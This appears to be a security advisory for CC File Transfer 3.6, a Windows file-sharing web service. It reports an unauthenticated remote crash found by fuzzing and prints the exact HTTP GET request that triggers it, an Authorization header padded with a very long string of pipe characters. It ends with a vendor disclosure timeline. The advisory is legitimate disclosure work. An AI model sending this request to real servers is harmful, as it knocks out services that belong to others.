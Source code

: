 # introduction

CC File Transfer is free web based file transfer software built for people that need to transfer files PC to PC regularly. It 
helps you ashare files, photos, music and video with your friends. This file transfer program eliminates the hassles of FTP 
and limitations of email file transfer especially for transferring large files. The simple interface makes transferring files 
as easy as dragging and dropping files. It can transfer files over the Internet or LAN/home network even transfer files from 
Windows to Linux / Mac OS. 

http://www.ccfile.net/index.htm

# affected programs & issues

CCFile Windows Binary - v3.6

Tested on:  
Windows XP Professional  
Service Pack 3  
  
Windows 7 Professional
Service Pack 1  

The web-based software allows a malicious user to remotely crash the service without authentication

# discovery

author: sec.9emin1@gmail.com  
discovered by: sec.9emin1@gmail.com  

The vulnerabilities were discovered using the Peach Fuzzer Community Edition  
https://www.peach.tech

# issue demonstration

The following HTTP GET request will crash the service remotely:    
```
GET /download.htm?file= HTTP/1.1
User-Agent: Mozilla/4.0
Host: 172.16.6.133:80
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Referer: http://172.16.6.133/
Authorization: Basic ||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||||
Conection: Keep-Alive
```

# progress
 
080817 - Vendor Notified  
090817 - Vendor Acknowledged and responded with no intention to fix
